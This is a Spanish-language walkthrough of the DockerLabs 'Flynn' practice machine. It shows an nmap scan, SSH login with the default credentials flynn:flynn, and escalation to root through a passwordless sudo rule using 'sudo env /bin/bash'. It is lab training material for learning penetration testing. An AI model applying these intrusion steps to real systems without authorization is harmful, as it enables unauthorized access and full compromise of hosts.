





# Flynn DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria Flynn

<figure><figcaption></figcaption></figure>

## Descripción

**Flynn** es una máquina Linux de dificultad **Easy** en DockerLabs que pone a prueba un concepto fundamental en seguridad: **probar credenciales por defecto antes de escalar a técnicas más complejas**. La máquina expone un servidor web y SSH, y tras comprobar que el fuzzing web y la fuerza bruta con diccionarios no dan resultado, la solución es simplemente intentar el acceso SSH con el nombre de usuario como contraseña (`flynn:flynn`), un patrón de credenciales por defecto sorprendentemente habitual en entornos reales y de laboratorio.

La escalada a `root` es directa: el usuario `flynn` tiene permiso para ejecutar `env` como `root` sin contraseña, y `env` permite lanzar cualquier proceso, incluyendo una shell de `root`.

**Objetivo**

- Identificar las credenciales por defecto `flynn:flynn` para el acceso SSH.
- Escalar a `root` mediante `sudo env /bin/bash`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Ubuntu)
- Categoría principal: Linux Privilege Escalation
- Componentes involucrados:
    - SSH con credenciales por defecto (usuario = contraseña).
    - `sudo env` sin contraseña para escalada inmediata a `root`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip flynn.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh flynn.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

<figure><figcaption></figcaption></figure>

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-12 12:09 +0200
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66 ((Ubuntu))
|_http-server-header: Apache/2.4.66 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

Nmap done: 1 IP address (1 host up) scanned in 7.03 seconds
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 10.2p1), que usaremos directamente.
- **Puerto 80** → HTTP (Apache 2.4.66). Sirve una página sin título, lo que indica que el contenido puede ser mínimo o irrelevante para la resolución.
## Enumeración web


Accedemos a la página:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos una página aparentemente normal. Probamos fuzzing de directorios y fuerza bruta SSH con diccionarios pero ninguna vía da resultado directo. En este punto, antes de escalar a técnicas más complejas, aplicamos el principio básico de comprobar **credenciales por defecto**: intentamos el acceso SSH usando el nombre de usuario como contraseña, un patrón habitual en sistemas mal configurados y en entornos de laboratorio.
# Escalate user flynn
## SSH con credenciales por defecto

```bash
ssh flynn@<IP>
```

Metemos como contraseña `flynn`:

```
Welcome to Ubuntu 26.04 LTS (GNU/Linux 7.2.4-arch1-2 x86_64)
...
flynn@42a9bf5b8c73:~$ whoami
flynn
```

Las credenciales `flynn:flynn` son válidas. La lección de esta máquina es que **las credenciales por defecto siempre deben probarse antes de cualquier otra técnica**: username = password, admin:admin, root:root, o cualquier combinación trivial. Es el primer check de cualquier metodología de pentesting seria y a menudo el más rentable.
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de permisos sudo

```bash
sudo -l
```

Respuesta:

```
User flynn may run the following commands on 42a9bf5b8c73:
    (ALL) NOPASSWD: /usr/bin/env
```

`flynn` puede ejecutar `env` como `root` sin contraseña. `env` es una herramienta que ejecuta comandos con variables de entorno modificadas, pero al pasarle `/bin/bash` directamente como argumento, lanza una shell de `root` sin ningún paso adicional:

```bash
sudo env /bin/bash
```

Respuesta:

```
root@42a9bf5b8c73:/home/flynn# whoami
root
```

Ya somos `root` y la máquina está completamente comprometida.
